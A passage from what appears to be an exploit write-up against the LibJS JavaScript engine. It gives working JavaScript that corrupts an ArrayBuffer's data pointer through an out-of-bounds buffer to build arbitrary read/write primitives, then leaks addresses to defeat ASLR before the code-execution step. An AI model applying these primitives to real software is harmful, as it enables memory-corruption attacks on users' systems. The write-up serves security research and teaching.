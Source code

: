 Now we can simply use a small `ArrayBuffer` with inline data (`trampoline`) to corrupt the data pointer of a larger `ArrayBuffer` lying right after it (`victim`). But probably, before corrupting it, we need to backup the data we’re going to overwrite - by reading it first.

With this idea, we arrive at the following code:
```JavaScript
  // Buffer to store data for readig/writing
  let buffer     = new Uint8Array(0xa8);
  // trampoline buffer we will use for OOB access
  // NOTE: It is small to force LibJS to use some
  //       "Objects" storage for it instead of normal heap.
  //       With small size sensitive data of victim_ab will
  //       be stored right after the trampoline's ArrayBuffer.
  let trampoline = new Uint8Array(0x20).fill(0x77);
  // ArrayBuffer we will corrupt
  let victim_ab  = new ArrayBuffer(0x300);
  let victim     = new Uint8Array(victim_ab);

  // 8-byte arbitrary read primitive based on writing arbitrary address in place of victim's pointer
  function readq(address)
  {
    oob_read(trampoline, buffer);
    buffer.set(pack(address), victim_pointer_o);
    oob_write(trampoline, buffer);
    return unpack(victim.slice(0x00, 0x08));
  }

  // 8-byte arbitrary write primitive similar to read
  function writeq(address, value)
  {
    oob_read(trampoline, buffer);
    buffer.set(pack(address), victim_pointer_o);
    oob_write(trampoline, buffer);
    victim.set(pack(value), 0x00);
  }
```
Before we move to arbitrary code execution, we need to solve one small problem: `ASLR`.

This problem is really small, because as we’ve seen earlier, we can simply leak the binary base address and the heap address of the second (`victim`) `ArrayBuffer`’s data using our `OOB` read primitive with our `trampoline`.

Here’s how we can do it:
```JavaScript
  // Just one OOB read to leak addresses
  oob_read(trampoline, buffer);

  // Leak of binary base
  const binary        = unpack(buffer.slice(ab_vtable_o, ab_vtable_o+0x08)) - binary_leak_o;
  loghex(binary);
  // Leak heap address of shellcode
  const victim_ab_buf = unpack(buffer.slice(victim_pointer_o, victim_pointer_o+0x08));
  loghex(victim_ab_buf);
```
### Here We Execute Again
